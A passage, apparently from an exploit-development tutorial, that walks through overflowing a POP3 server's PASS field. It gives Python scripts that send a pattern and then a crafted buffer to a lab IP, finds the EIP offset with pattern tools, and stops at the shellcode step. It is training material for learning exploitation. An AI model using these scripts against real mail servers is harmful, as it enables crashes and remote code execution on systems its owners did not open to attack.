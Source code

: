 ### Controlling EIP

Send a unique string of 2700 bytes then note the 4 bytes that overwrite the EIP

Helpful tool to create unique string
`pattern_create.rb 2700`

then swap out the AAAAs with a unique string

```python
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

buffer = UNIQUE_STRING

try:
  print "\nSending evil buffer..."
  s.connect(('192.168.30.35',110))
  data = s.recv(1024)
  s.send('USER username' + '\r\n')
  data = s.recv(1024)
  s.send('PASS ' + buffer + '\r\n')
  print "\nDone!."
except:
  print "Could not connect to POP3!"
```

`pattern_offset.rb 39694438`
* will tell offset of 2606

```python
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

buffer = "A" * 2606 + "B" * 4 + "C" * 90

try:
  print "\nSending evil buffer..."
  s.connect(('192.168.30.35',110))
  data = s.recv(1024)
  s.send('USER username' + '\r\n')
  data = s.recv(1024)
  s.send('PASS ' + buffer + '\r\n')
  print "\nDone!."
except:
  print "Could not connect to POP3!"
```

### Introducing Shellcode

Look at ESP for where the Cs start
